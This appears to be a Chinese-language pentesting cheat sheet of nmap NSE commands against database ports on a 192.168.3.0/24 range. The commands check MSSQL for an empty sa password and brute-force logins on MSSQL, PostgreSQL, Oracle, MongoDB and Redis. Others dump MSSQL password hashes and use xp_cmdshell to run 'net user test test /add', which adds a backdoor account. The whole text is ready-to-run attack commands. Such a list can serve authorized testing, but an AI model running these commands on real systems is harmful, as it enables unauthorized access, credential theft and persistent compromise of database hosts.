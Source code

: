 ms-sql-empty-password.nse 扫描mssql sa空密码

```
# nmap -p 1433 –script ms-sql-empty-password.nse -v 192.168.3.0/24
```


ms-sql-brute.nse sa弱口令爆破

```
# nmap -p 1433 –script ms-sql-brute.nse -v 192.168.3.0/24
```


ms-sql-xp-cmdshell.nse 利用xp_cmdshell,远程执行系统命令


```
# nmap -p 1433 –script ms-sql-xp-cmdshell –script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd=“net user test test /add” 192.168.3.0/24
```


ms-sql-dump-hashes.nse 导出mssql中所有的数据库用户及密码hash


```
# nmap -p 1433 –script ms-sql-dump-hashes -v 192.168.3.0/24
```


pgsql-brute.nse 尝试爆破postgresql


```
# nmap -p 5432 –script pgsql-brute -v 192.168.3.0/24
```


oracle-brute-stealth.nse 尝试爆破oracle

```
# nmap –script oracle-brute-stealth -p 1521 –script-args oracle-brute-stealth.sid=ORCL -v 192.168.3.0/24
```


oracle-brute.nse

```
# nmap –script oracle-brute -p 1521 –script-args oracle-brute.sid=ORCL -v 192.168.3.0/24
```


mongodb-brute.nse 尝试爆破mongdb


```
# nmap -p 27017 –script mongodb-brute 192.168.3.0/24
```


redis-brute.nse redis爆破


```
# nmap -p 6379 –script redis-brute.nse 192.168.3.0/24
```
